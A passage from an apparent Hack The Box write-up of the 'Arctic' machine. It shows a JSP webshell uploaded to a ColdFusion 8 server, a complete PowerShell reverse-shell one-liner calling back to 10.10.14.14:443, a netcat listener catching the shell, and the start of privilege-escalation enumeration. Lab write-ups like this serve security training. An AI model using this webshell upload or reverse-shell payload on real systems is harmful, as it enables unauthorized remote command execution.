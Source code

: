 Upload the webshell:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Arctic/exploit]
└─$ python upload.py 10.10.10.11 8500 cmdjsp.jsp 
Sending payload...
Successfully uploaded payload!
Find it at http://10.10.10.11:8500/userfiles/file/exploit.jsp
```

![Pasted image 20210421232355.png](../../zzz_res/attachments/Pasted_image_20210421232355.png)

Command to get the reverse shell:

```powershell
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.14',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte =([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush();}$client.Close()"
```

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Arctic/exploit]
└─$ sudo nc -nlvp 443                                                        
[sudo] password for kali: 
listening on [any] 443 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.11] 49646

PS C:\ColdFusion8\runtime\bin> whoami
arctic\tolis
```

# Privilege Escalation

## Local enumeration

Systeminfo:

```powershell
PS C:\ColdFusion8\runtime\bin> systeminfo

Host Name:                 ARCTIC
OS Name:                   Microsoft Windows Server 2008 R2 Standard 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-507-9857321-84451
Original Install Date:     22/3/2017, 11:09:45 ??
System Boot Time:          23/4/2021, 6:51:17 ??
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
```